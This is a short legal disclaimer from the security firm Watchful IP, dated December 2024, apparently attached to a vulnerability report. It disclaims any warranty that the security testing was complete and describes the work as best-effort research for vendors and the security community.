Security threats are continually changing, with new vulnerabilities discovered on a daily basis, and no product, system or application can ever be 100% secure no matter how much security testing is conducted. All submitted reports are intended only to provide information to the vendor, or in this case, the general security researcher community relating to security vulnerabilities discovered in the course of this, or previous, projects.
These reports cannot and do not protect against personal or business loss as the result of use of the applications or systems described. Watchful IP offers no warranties, representations or legal certifications concerning the applications or systems tested without prior written agreement.
All software includes defects: nothing in any submitted report or any other communication is intended to represent or warrant that security testing was complete and without error, nor do any such work or communications represent or warrant that the application tested is suitable for task, free of other defects than reported, fully compliant with any industry standards, or fully compatible with any operating system, hardware, or other application.
All work carried out was done on a best effort basis with the aim of improving the security of vendor products and services, and the security posture of vendor in general.
Watchful IP
December 2024